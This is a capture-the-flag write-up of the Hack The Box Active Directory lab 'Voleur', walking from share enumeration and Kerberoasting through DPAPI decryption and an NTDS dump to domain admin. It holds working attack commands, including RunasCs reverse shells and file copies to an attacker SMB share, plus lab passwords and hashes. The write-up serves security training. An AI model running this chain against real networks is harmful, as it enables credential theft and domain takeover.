






# Machine Information

<table>
<tr>
<td><strong>IP Address</strong></td>
<td>10.129.232.130</td>
</tr>
<tr>
<td><strong>Operating System</strong></td>
<td>Windows</td>
</tr>
<tr>
<td><strong>Hostname</strong></td>
<td>DC</td>
</tr>
<tr>
<td><strong>Domain</strong></td>
<td>voleur.htb</td>
</tr>
<tr>
<td><strong>Release Date</strong></td>
<td>July 2025</td>
</tr>
<tr>
<td><strong>Difficulty</strong></td>
<td>Medium</td>
</tr>
</table>

# Machine Description

Voleur is a medium-difficulty Windows Active Directory machine that simulates a realistic corporate environment where sensitive information is scattered across SMB shares and archived user profiles. The exploitation path begins with Kerberos-only authentication enforcement, progresses through credential harvesting from a password-protected spreadsheet, chained Kerberoasting attacks, Active Directory Recycle Bin exploitation, and Windows DPAPI credential decryption, ultimately leading to a full domain compromise via an NTDS backup found in a WSL-accessible directory.

# Exploitation Summary

The attack chain involved:

1. **Service Discovery**: Identifying a Domain Controller with Kerberos, LDAP, SMB, WinRM, and SSH on port 2222
2. **Kerberos Configuration**: Disabling NTLM and configuring Kerberos authentication to enumerate SMB shares
3. **Share Enumeration and Credential Harvesting**: Discovering and cracking a password-protected spreadsheet containing plaintext credentials for multiple domain accounts
4. **BloodHound Enumeration**: Mapping Active Directory attack paths using the collected credentials
5. **Kerberoasting**: Exploiting svc_ldap's ability to Kerberoast svc_winrm and cracking the obtained hash
6. **Initial Access**: Accessing WinRM as svc_winrm and retrieving the user flag
7. **AD Recycle Bin Exploitation**: Leveraging svc_ldap's membership in the Restore_Users group to restore the deleted account todd.wolfe
8. **DPAPI Credential Decryption**: Extracting and decrypting DPAPI-protected credentials from todd.wolfe's archived profile to obtain jeremy.combs credentials
9. **WSL Lateral Movement**: Using a private SSH key found in the Third-Line Support directory to access the machine via WSL over SSH
10. **NTDS Dump**: Extracting and dumping an NTDS backup to obtain the Administrator NTLM hash
11. **Domain Administrator Access**: Authenticating as Administrator via Pass-the-Hash and retrieving the root flag

# Detailed Walkthrough

## Road to User Flag

### ***Phase 1: Initial Network Reconnaissance and Service Discovery***

I began by performing a comprehensive network scan to identify all services running on the target machine:

```
$ sudo nmap 10.129.232.130 -Pn -sV

...SNIP...

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-18 17:10:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

...SNIP...
```

The scan confirmed this was a Domain Controller for the domain `voleur.htb`. Particularly interesting was the presence of an OpenSSH service on port 2222 reporting a Linux operating system, suggesting the presence of a WSL (Windows Subsystem for Linux) instance running alongside the Windows environment.

### ***Phase 2: Kerberos Authentication Configuration***

I was provided with initial credentials (`ryan.naylor:HollowOct31Nyt`) and attempted to enumerate SMB shares. However, NTLM authentication was disabled on the target:

```
$ nxc smb 10.129.232.130 -d voleur.htb -u ryan.naylor -p HollowOct31Nyt --shares
SMB         10.129.232.130  445    DC    [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.232.130  445    DC    [-] voleur.htb\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
```

The `NTLM:False` flag confirmed that the DC was configured to reject NTLM authentication, requiring Kerberos instead. To obtain a valid Kerberos ticket, the attacker machine's clock must be synchronized with the Domain Controller (Kerberos enforces a maximum of 5 minutes of time difference). I disabled NTP synchronization and synced the clock manually:

```
# timedatectl set-ntp off
```

```
# rdate -n 10.129.110.243
Mon Oct 19 18:37:02 CEST 2026
```

I then configured the Kerberos client on my machine by adding the `voleur.htb` realm to `/etc/krb5.conf`:

```
# /etc/krb5.conf

...SNIP...

[realms]

...SNIP...

       VOLEUR.HTB = {
               kdc = 10.129.232.130
               admin_server = 10.129.232.130
       }

[domain_realms]

...SNIP...

       .voleur.htb = VOLEUR.HTB
       voleur.htb = VOLEUR.HTB
```

With the configuration in place, I requested a Ticket Granting Ticket (TGT) from the Domain Controller for `ryan.naylor`:

```
$ kinit ryan.naylor@VOLEUR.HTB
```

I verified the ticket was correctly stored in the cache:

```
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: ryan.naylor@VOLEUR.HTB

Valid starting       Expires              Service principal
10/18/2026 19:26:31  10/19/2026 05:26:31  krbtgt/VOLEUR.HTB@VOLEUR.HTB
       renew until 10/19/2026 19:26:20
```

I then exported the cache path to the `KRB5CCNAME` environment variable so that subsequent tools could use it automatically:

```
$ export KRB5CCNAME=/tmp/krb5cc_1000
```

### ***Phase 3: SMB Share Enumeration***

With the Kerberos ticket configured, I was able to enumerate the available SMB shares:

```
$ smbclient -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' --realm=voleur.htb -L //DC.voleur.htb

       Sharename       Type      Comment
       ---------       ------      -------
       ADMIN$          Disk      Remote Admin
       C$              Disk      Default share
       Finance         Disk
       HR              Disk
       IPC$            IPC       Remote IPC
       IT              Disk
       NETLOGON        Disk      Logon server share
       SYSVOL          Disk      Logon server share

...SNIP...
```

Among the accessible shares, the `IT` share stood out as a non-standard one. I connected to it and found a directory named `First-Line Support`:

```
$ smbclient -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' --realm=voleur.htb //DC.voleur.htb/IT
Try "help" to get a list of possible commands.
smb: \> ls
 .                                   D        0  Wed Jan 29 10:10:01 2025
 ..                                DHS        0  Thu Jul 24 22:09:59 2025
 First-Line Support                  D        0  Wed Jan 29 10:40:17 2025

               5311743 blocks of size 4096. 1000970 blocks available
```

Inside the directory, I found a password-protected Excel spreadsheet which I downloaded locally for analysis:

```
smb: \> get First-Line Support/Access_Review.xlsx
```

### ***Phase 4: Spreadsheet Password Cracking and Credential Harvesting***

The spreadsheet was protected by a password. I used `office2john` to extract a crackable hash from the file and then passed it to John the Ripper:

```
$ office2john Access_Review.xlsx > xlsx.hash
```

```
$ john xlsx.hash --wordlist=/home/yus3r/Tools/SecLists/Passwords/rockyou.txt
Using default input encoding: UTF-8

...SNIP...

football1        (Access_Review.xlsx)

...SNIP...
```

After opening the spreadsheet with the recovered password, I found a detailed access review document containing usernames, job titles, group memberships, and sensitive notes. Most critically, it included plaintext passwords for several service accounts, as well as a note indicating that the account for `todd.wolfe`, a leaver, had been reset to `NightT1meP1dg3on14` before being deleted.



### ***Phase 5: Active Directory Enumeration with BloodHound***

I proceeded to collect comprehensive Active Directory data using BloodHound's Python data collector with the provided credentials:

```
$ bloodhound-python -d voleur.htb -c all -u ryan.naylor -p HollowOct31Nyt -ns 10.129.110.243 -k --zip
```

After importing the data into the BloodHound GUI and analyzing the attack paths, I discovered that the service account `svc_ldap`, whose plaintext password `M1XyC9pW7qT5Vn` was present in the spreadsheet, had the ability to perform a Kerberoasting attack against `svc_winrm`.



Additionally, `svc_winrm`, as the name suggests, was a member of the `Remote Management Users` group, meaning that compromising it would grant direct WinRM access to the machine.



### ***Phase 6: Kerberoasting svc_winrm***

I generated a new TGT for `svc_ldap`, verified its presence in the cache, and exported it to `KRB5CCNAME`:

```
$ kinit svc_ldap@VOLEUR.HTB
```

```
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: svc_ldap@VOLEUR.HTB

Valid starting       Expires              Service principal
10/19/2026 20:42:02  10/20/2026 06:42:02  krbtgt/VOLEUR.HTB@VOLEUR.HTB
       renew until 10/20/2026 20:41:52
```

```
$ export KRB5CCNAME=/tmp/krb5cc_1000
```

With the ticket active, I ran a targeted Kerberoasting attack against `svc_winrm` using `targetedKerberoast.py`. This tool exploits the `WriteSPN` privilege by temporarily adding a Service Principal Name to the target account, requesting a TGS ticket encrypted with the target account's password hash, and then removing the SPN. The resulting hash can then be cracked offline:

```
$ python3 ./targetedKerberoast.py -v -d 'voleur.htb' --dc-ip 10.129.232.130 --dc-host DC.voleur.htb -k --no-pass

...SNIP...

[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$625f3fccf3b3568ee8019580aeeb7ae9$f73166d48a9b...SNIP...
```

I saved the hash and cracked it with Hashcat using mode 13100 (Kerberos 5 TGS-REP):

```
$ hashcat -m 13100 svc_winrm.hash /home/yus3r/Tools/SecLists/Passwords/rockyou.txt

...SNIP...

$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$625f3fccf3b3568ee8019580aeeb7ae9$f73166d48a9b9d...SNIP...:AFireInsidedeOzarctica980219afi

...SNIP...
```

### ***Phase 7: Get the flag

With the recovered password, I requested a TGT for `svc_winrm` and authenticated to the WinRM service:

```
$ kinit svc_winrm@VOLEUR.HTB
```

```
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: svc_winrm@VOLEUR.HTB

Valid starting       Expires              Service principal
10/19/2026 22:36:53  10/20/2026 08:36:53  krbtgt/VOLEUR.HTB@VOLEUR.HTB
       renew until 10/20/2026 22:36:45
```

```
$ export KRB5CCNAME=/tmp/krb5cc_1000
```

```
$ evil-winrm -i DC.voleur.htb -r voleur.htb

...SNIP...

*Evil-WinRM* PS C:\Users\svc_winrm\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc_winrm> type Desktop\user.txt
5e9317817511d311c6c7641c9185005d
```

<mark>User flag</mark>: `5e9317817511d311c6c7641c9185005d`

## Road to Root Flag

### ***Phase 1: Post-Exploitation Enumeration and IT Share Discovery***

From the `svc_winrm` shell, I enumerated the `C:\` drive and found that the `IT` share accessible via SMB was physically located at `C:\IT`. The directory contained three subdirectories:

```
*Evil-WinRM* PS C:\IT> dir


   Directory: C:\IT


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/29/2025   1:40 AM                First-Line Support
d-----         1/29/2025   7:13 AM                Second-Line Support
d-----         1/30/2025   8:11 AM                Third-Line Support
```

However, `svc_winrm` lacked the permissions to access any of them. I needed to escalate to a different user context.

### ***Phase 2: Active Directory Recycle Bin Exploitation***

Returning to the BloodHound analysis, I discovered that `svc_ldap` was a member of a group called `Restore_Users`, a naming convention that strongly suggested this group held privileges to restore deleted Active Directory objects:



To avoid overwriting the existing `svc_winrm` ticket in the default cache (which would have terminated the active WinRM session), I generated a new TGT for `svc_ldap` and saved it to a separate cache file:

```
$ kinit svc_ldap@VOLEUR.HTB -c svc_ldap.ccache
Password for svc_ldap@VOLEUR.HTB:
```

Using this ticket, I queried bloodyAD to enumerate the objects on which `svc_ldap` held write permissions. Among the results, the deleted object for `todd.wolfe` appeared with `CREATE_CHILD; WRITE` permissions, confirming it could be restored:

```
$ bloodyad --host DC.voleur.htb --dns 10.129.232.130 -d voleur.htb -k ccache=~/'HTB machines'/Medium/Windows/Voleur/svc_ldap.ccache get writable

...SNIP...

distinguishedName: CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
permission: CREATE_CHILD; WRITE

...SNIP...
```

I proceeded to restore the deleted account from the Active Directory Recycle Bin using bloodyAD's `set restore` command:

```
$ bloodyad --host DC.voleur.htb --dns 10.129.232.130 -d voleur.htb -k ccache=~/HTB-machines/Medium/Windows/Voleur/svc_ldap.ccache set restore "Todd.Wolfe"
[+] Todd.Wolfe has been restored successfully under CN=Todd Wolfe,OU=Second-Line Support Technicians,DC=voleur,DC=htb
```

The account was successfully restored. I re-ran the BloodHound data collection to update the graph with the new state of the domain:

```
$ bloodhound-python -d voleur.htb -c all -u ryan.naylor -p HollowOct31Nyt -ns 10.129.232.130 -k --zip
```

The updated BloodHound data shown that `todd.wolfe` was a member of `Second-Line Support Technicians`:



### ***Phase 3: Lateral Movement to todd.wolfe via RunasCs***

Since WinRM access as todd.wolfe presented authentication issues with Kerberos, I leveraged `RunasCs` to execute commands in `todd.wolfe`'s security context from within the existing `svc_winrm` WinRM session. RunasCs is a Windows utility that allows running processes as a different user without requiring an interactive logon session, effectively bypassing the limitation of the standard `runas` command which requires a fully interactive console. I set up a listener on my attacking machine and executed `RunasCs` from the Evil-WinRM session, passing `todd.wolfe`'s credentials and requesting a reverse shell:

```
$ nc -lvnp 8888
listening on [any] 8888 ...
```

```
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> ./RunasCs.exe Todd.Wolfe NightT1meP1dg3on14 cmd -d voleur.htb -r 10.10.14.102:8888
```

```
...SNIP...

connect to [10.10.14.102] from (UNKNOWN) [10.129.232.130] 60724
Microsoft Windows [Version 10.0.20348.3807]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
voleur\todd.wolfe
```

### ***Phase 4: DPAPI Credential Extraction from Archived Profile***

Inside the `Second-Line Support` directory, I found an archived home directory for `todd.wolfe` containing a hidden `AppData` folder:

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe>dir /q /a

...SNIP...

01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators AppData

...SNIP...
```

The `AppData` folder is the central location used by Windows for storing application data and, notably, DPAPI-protected secrets. Windows DPAPI (Data Protection API) is a built-in encryption mechanism that allows applications to protect sensitive data by tying its encryption to the user's identity. It is organized across three subdirectories:

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\>dir /a /q AppData

...SNIP...

01/29/2025  08:13 AM    <DIR>          ..
01/29/2025  08:13 AM    <DIR>          Local
01/29/2025  08:13 AM    <DIR>          LocalLow
01/29/2025  08:13 AM    <DIR>          Roaming
              0 File(s)              0 bytes
              4 Dir(s)   4,097,822,720 bytes free
```

The `Local` folder contains credentials tied to the local machine that are not synchronized across domain computers, while the `Roaming` folder contains domain credentials that follow the user profile between machines. Inside `Roaming\Microsoft`, I found two critical directories for DPAPI operations: `Credentials`, which stores the encrypted credential blobs, and `Protect`, which contains the Master Key used to decrypt them, organized under the user's SID.

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft>dir /a /q

...SNIP...

01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators .
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators ..
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Credentials
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Crypto
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Internet Explorer
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Network
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Protect
01/29/2021  01:20 AM      <DIR>        BUILTIN\Administrators Spelling
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators SystemCertificates
01/29/2025  05:54 AM    <DIR>          BUILTIN\Administrators Vault
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators Windows
```

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft>dir Credentials /a /q

...SNIP...

01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators .
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators ..
01/29/2025  05:55 AM               398 BUILTIN\Administrators 772275FAD58525253490A9B0039791D3
              1 File(s)            398 bytes
              2 Dir(s)   4,078,178,304 bytes free
```

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft>dir Protect /a /q

...SNIP...

01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators .
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators ..
01/29/2025  05:53 AM                24 BUILTIN\Administrators CREDHIST
01/29/2025  08:13 AM    <DIR>          BUILTIN\Administrators S-1-5-21-3927696377-1337352550-2781715495-1110
01/29/2025  05:53 AM                76 BUILTIN\Administrators SYNCHIST
              2 File(s)            100 bytes
              3 Dir(s)   4,075,831,296 bytes free
```

`CREDHIST` keeps a history of the user's DPAPI master keys. Its job is to survive password changes: when you reset or change your account password, Windows still needs to decrypt data that was protected with the old one. CREDHIST holds the references to those earlier keys so decryption keeps working. `SYNCHIST` records the synchronization state of those keys. It matters when a profile is roamed or synced across machines. It tracks which keys have already been propagated so Windows doesn't re-sync them or create conflicts. Inside the SID directory, I found the Master Key file that is used to decrypt the credential blob:

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\>dir Protect\S-1-5-21-3927696377-1337352550-2781715495-1110 /a

...SNIP...

01/29/2025  08:13 AM    <DIR>          .
01/29/2025  08:13 AM    <DIR>          ..
01/29/2025  05:53 AM               740 08949382-134f-4c63-b93c-ce52efc0aa88
01/29/2025  05:53 AM               900 BK-VOLEUR
01/29/2025  05:53 AM                24 Preferred
              3 File(s)          1,664 bytes
              3 Dir(s)   4,074,717,184 bytes free
```

The two files needed for decryption were the credential blob `772275FAD58525253490A9B0039791D3` and the Master Key `08949382-134f-4c63-b93c-ce52efc0aa88`. To transfer them to my attacking machine, I started an authenticated SMB server using Impacket (authentication was required to avoid Windows Password Policy compatibility issues):

```
$ sudo impacket-smbserver share -smb2support . -user user -password pass
```

I connected to the share from the compromised machine and transferred the credential blob. For the Master Key file, I used `xcopy` instead of `copy` because the file had the hidden attribute set, which `copy` cannot handle:

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft>copy Credentials\772275FAD58525253490A9B0039791D3 \\10.10.14.102\share\
```

```
C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\>xcopy /h Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88 \\10.10.14.102\share\
```

With both files on my machine, I used `impacket-dpapi` to decrypt the Master Key using todd.wolfe's known password and SID:

```
$ impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password NightT1meP1dg3on14 -sid S-1-5-21-3927696377-1337352550-2781715495-1110

...SNIP...

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

Using the decrypted Master Key, I then decrypted the credential blob and retrieved the credentials for `jeremy.combs`:

```
$ impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

...SNIP...

Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```

### ***Phase 5: Lateral Movement to jeremy.combs***

Checking BloodHound, I confirmed that `jeremy.combs` belonged to the `Third-Line Support` group, suggesting access to the `Third-Line Support` directory inside `C:\IT`. The spreadsheet had also noted that jeremy.combs had access to a Software folder:



Using the same `RunasCs` approach as before, I obtained a reverse shell as `jeremy.combs` from within the `svc_winrm` WinRM session:

```
$ nc -lvnp 4444
listening on [any] 4444 ...
```

```
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> ./RunasCs.exe jeremy.combs qT3V9pLXyN7W4m cmd -d voleur.htb -r 10.10.14.102:4444
```

```
...SNIP...

connect to [10.10.14.102] from (UNKNOWN) [10.129.232.130] 61903
Microsoft Windows [Version 10.0.20348.3807]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
voleur\jeremy.combs
```

### ***Phase 6: WSL SSH Access via Discovered Private Key***

Inside the `Third-Line Support` directory, I found three items: a directory named `Backups` (no access), a private SSH key owned by `svc_backup`, and a note file referencing WSL:

```
C:\Windows\system32>dir C:\IT\"Third-Line Support" /a /q

...SNIP...

01/30/2025  09:11 AM    <DIR>          BUILTIN\Administrators .
01/29/2025  02:10 AM    <DIR>          BUILTIN\Administrators ..
01/30/2025  09:11 AM    <DIR>          ...                    Backups
01/30/2025  09:10 AM             2,602 VOLEUR\svc_backup      id_rsa
01/30/2025  09:07 AM               186 BUILTIN\Administrators Note.txt.txt
              2 File(s)          2,788 bytes
              3 Dir(s)   4,059,807,744 bytes free
```

```
C:\IT\Third-Line Support>type Note.txt.txt
type Note.txt.txt
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
```

WSL (Windows Subsystem for Linux) is a feature of Windows that enables users to run a Linux environment directly on a Windows machine without the overhead of a traditional virtual machine. It provides a native Linux kernel interface and allows Linux distributions (such as Ubuntu) to run alongside Windows. In this context, WSL had been configured with an SSH server, explaining the presence of port 2222 in the initial Nmap scan reporting an Ubuntu Linux service running on the Windows Domain Controller. This confirmed that port 2222 was the SSH service exposed by the WSL Ubuntu instance, and that the private key found in the directory belonged to the `svc_backup` user inside that environment. I copied the key's content locally, set the correct permissions, and authenticated via SSH on port 2222:

```
$ chmod 600 svc_backup_id_rsa
```

```
$ ssh -i svc_backup_id_rsa svc_backup@10.129.232.130 -p 2222

...SNIP...

svc_backup@DC:~$
```

### ***Phase 7: NTDS Backup Discovery and Domain Credential Dump***

The SSH connection gave me access to the `svc_backup` user's context inside the WSL environment, which had the Windows file system mounted under `/mnt/c/`. Navigating to the `Backups` directory, which `jeremy.combs` had been unable to access via CMD, I found a complete set of Active Directory backup files:

```
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls -ltra
total 0
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025 'Active Directory'
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025  registry
dr-xr-xr-x 1 svc_backup svc_backup 4096 Jan 30  2025  ..
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025  .
```

```
svc_backup@DC:~$ ls -ltra 'Active Directory'
total 24592
drwxrwxrwx 1 svc_backup svc_backup     4096 Jan 30  2025 .
-rwxrwxrwx 1 svc_backup svc_backup    16384 Jan 30  2025 ntds.jfm
-rwxrwxrwx 1 svc_backup svc_backup 25165824 Jan 30  2025 ntds.dit
drwxrwxrwx 1 svc_backup svc_backup     4096 Jan 30  2025 ..
```

```
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/$ ls -ltra registry
total 17952
-rwxrwxrwx 1 svc_backup svc_backup 18350080 Jan 30  2025 SYSTEM
-rwxrwxrwx 1 svc_backup svc_backup    32768 Jan 30  2025 SECURITY
drwxrwxrwx 1 svc_backup svc_backup     4096 Jan 30  2025 .
drwxrwxrwx 1 svc_backup svc_backup     4096 Jan 30  2025 ..
```

The directory contained `ntds.dit` (the Active Directory database file containing all domain credentials), along with `SYSTEM` and `SECURITY` registry hives, which are necessary to decrypt the NTDS database. I transferred these files to my attacking machine and used `impacket-secretsdump` to extract all domain password hashes:

```
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY local

...SNIP...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::

...SNIP...
```

### ***Phase 8: Domain Administrator Access and Root Flag Retrieval***

With the `Administrator`'s NTLM hash in hand, I used `impacket-getTGT` to request a Kerberos TGT via Pass-the-Hash, then authenticated to the Domain Controller via WinRM as `Administrator`:

```
$ impacket-getTGT voleur.htb/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2 -dc-ip 10.129.232.130
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in Administrator.ccache
```

```
$ export KRB5CCNAME=Administrator.ccache
```

```
$ evil-winrm -i DC.voleur.htb -r voleur.htb

...SNIP...

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

<mark>Root flag</mark>: `4879fdc6ab17ebbff3bbebe4f58b4b6e`

# Key Vulnerabilities Exploited

- **NTLM Disabled but Kerberos Misconfigured**: Although NTLM was correctly disabled, proper controls were not applied to limit who could request Kerberos tickets, allowing an attacker with any valid domain credential to enumerate the environment
- **Sensitive Credentials in Plaintext Spreadsheet**: A password-protected Excel file stored in an SMB share contained plaintext passwords for multiple domain accounts, service accounts, and a former employee, becoming the single most critical source of credentials throughout the attack chain
- **Weak Spreadsheet Password**: The Excel file's protection was secured with a password present in common wordlists, allowing immediate recovery through offline dictionary attack
- **Overly Permissive Kerberoasting Privilege**: The `svc_ldap` service account possessed the ability to add SPNs to `svc_winrm`, enabling a targeted Kerberoasting attack that exposed the WinRM service account's password hash
